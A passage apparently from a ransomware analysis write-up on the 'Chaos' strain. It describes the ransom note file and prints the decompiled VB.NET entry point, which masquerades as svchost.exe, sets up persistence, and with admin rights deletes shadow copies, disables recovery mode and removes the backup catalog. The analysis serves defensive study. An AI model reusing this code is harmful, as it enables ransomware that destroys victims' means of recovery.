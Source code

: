 We also have a file named read_it.txt with a ransomware note. This file seems to be generated in every folder.

![information](/images/chaos/chaos-07.png)

We will now study the code

## Code Analyze

### The Entry Point

```vbnet
Private Shared processName As String = "svchost.exe"

Private Shared Sub Main(args As String())
	If Program.AlreadyRunning() Then
		Environment.[Exit](1)
	End If
	If Program.checkSleep Then
		Program.sleepOutOfTempFolder()
	End If
	If Program.checkAdminPrivilage Then
		Program.copyResistForAdmin(Program.processName)
	ElseIf Program.checkCopyRoaming Then
		Program.copyRoaming(Program.processName)
	End If
	If Program.checkStartupFolder Then
		Program.addLinkToStartup()
	End If
	Program.lookForDirectories()
	If Program.checkAdminPrivilage Then
		If Program.checkdeleteShadowCopies Then
			Program.deleteShadowCopies()
		End If
		If Program.checkdisableRecoveryMode Then
			Program.disableRecoveryMode()
		End If
		If Program.checkdeleteBackupCatalog Then
```